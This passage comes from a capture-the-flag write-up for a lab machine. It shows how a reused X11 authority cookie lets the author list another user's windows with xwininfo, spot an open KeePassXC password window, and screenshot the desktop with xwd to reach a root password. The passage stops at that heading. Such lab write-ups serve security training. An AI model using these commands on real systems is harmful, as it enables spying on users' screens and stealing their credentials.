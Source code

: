 There is a ton of data, not much of it of any use, but it shows that the authentication worked. Same with `xwininfo`:

```

alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800023 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1800006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x18000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1800008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
...[snip]...

```

This one does show a window named “Passwords - KeePassXC”, which is definitely interesting.

#### Take Screenshot

I can take a screenshot of that desktop using `xwd`:

```

alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/0xdf.xwd

```

The full syntax is from [the HackTricks page](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing), but the options are:
- `-root` - select the main root window, not requiring me to select a sub-window with the mouse (which would be impossible with a remote shell)
- `-screen` - makes sure the GetImage request goes to the root window
- `-silent` - silence the typical bells that come with a screenshot
- `display :0` - specifies the window to connect to

The resulting file is X Window Dump image data:

```

alex@squashed:/home/alex$ file /tmp/0xdf.xwd
/tmp/0xdf.xwd: XWD X Window Dump image data, "xwdump", 800x600x24

```

### Get Root Password
